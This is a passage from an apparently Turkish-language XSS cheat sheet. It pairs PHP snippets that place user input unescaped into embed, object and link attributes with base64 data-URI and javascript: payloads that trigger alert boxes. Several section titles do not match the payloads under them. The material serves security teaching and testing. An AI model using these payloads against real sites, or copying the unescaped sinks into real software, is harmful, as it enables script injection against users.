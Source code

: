 **Nasıl Çalışır:** embed tag'ı kullanılarak base64 kodlanmış HTML içeriği yüklenir. Bu içerikte JavaScript kodları çalıştırılabilir. Fitreleme olmadığı için xss saldırısına yol açar. 

### embed tag ile data:image URI Scheme

```php
<embed src="$userInput"></embed>
```

**Payload**

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

**Nasıl Çalışır:** embed tag'ı kullanılarak base64 kodlanmış HTML içeriği yüklenir. Bu içerikte JavaScript kodları çalıştırılabilir. Fitreleme olmadığı için xss saldırısına yol açar.

### embed tag ile data:text URI Scheme

```php
<embed src="$userInput"></embed>
```

**Payload**

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

**Nasıl Çalışır:** embed tag'ı kullanılarak base64 kodlanmış HTML içeriği yüklenir. Bu içerikte JavaScript kodları çalıştırılabilir. Fitreleme olmadığı için xss saldırısına yol açar.

### object tag ile javascript: URI Scheme

```php
<object data=\"". $userInput . "\"></object>
```

**Payload**

```
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

**Nasıl Çalışır:** object tag'ı kullanılarak base64 kodlanmış HTML içeriği yüklenir. Bu içerikte JavaScript kodları çalıştırılabilir. Fitreleme olmadığı için xss saldırısına yol açar.


### a href ile javascript: URI Scheme

```php
<a href=\"" . $userInput . "\">LINK</a>
```

**Payload**

```js
javascript:alert(0);
```
